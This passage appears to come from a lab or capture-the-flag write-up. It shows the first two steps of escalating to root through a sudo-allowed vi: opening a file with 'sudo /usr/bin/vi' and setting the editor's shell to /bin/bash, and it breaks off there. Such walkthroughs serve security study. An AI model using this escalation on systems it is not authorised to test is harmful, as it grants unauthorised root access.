 ![](./IMG/44.png)
- Using vi to escalate to root permission 
1. Edit a random or non-exist file by vi with sudo 
```
sudo /usr/bin/vi /var/www/html/b
```
![](./IMG/45.png)
2. In vi edit screen, set following parameter
```
:set shell=/bin/bash
```